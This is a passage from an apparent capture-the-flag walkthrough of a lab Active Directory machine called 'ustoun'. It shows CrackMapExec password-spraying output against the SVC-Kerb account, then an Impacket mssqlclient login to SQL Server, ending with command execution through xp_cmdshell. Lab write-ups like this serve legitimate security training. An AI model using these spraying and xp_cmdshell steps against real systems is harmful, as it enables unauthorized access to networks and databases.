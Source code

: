 ```text
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:secret STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:andrea STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:carlos STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:jennifer STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:joshua STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:bubbles STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:1234567890 STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [+] ustoun.local\SVC-Kerb:<HIDDEN>
```

## Impacket MSSQLClient

CrackMapExec has found the service accounts password. Let's use those credentials and attempt to login to SQL using Impackets client script that gives us a basic shell:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# mssqlclient.py SVC-Kerb@ustoun.local
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC): Line 1: Changed database context to 'master'.
[*] INFO(DC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

Let's see if we can use xp_cmdshell to execute something on the server:

```text
SQL> xp_cmdshell whoami
dc01\svc-kerb                                                                      
```
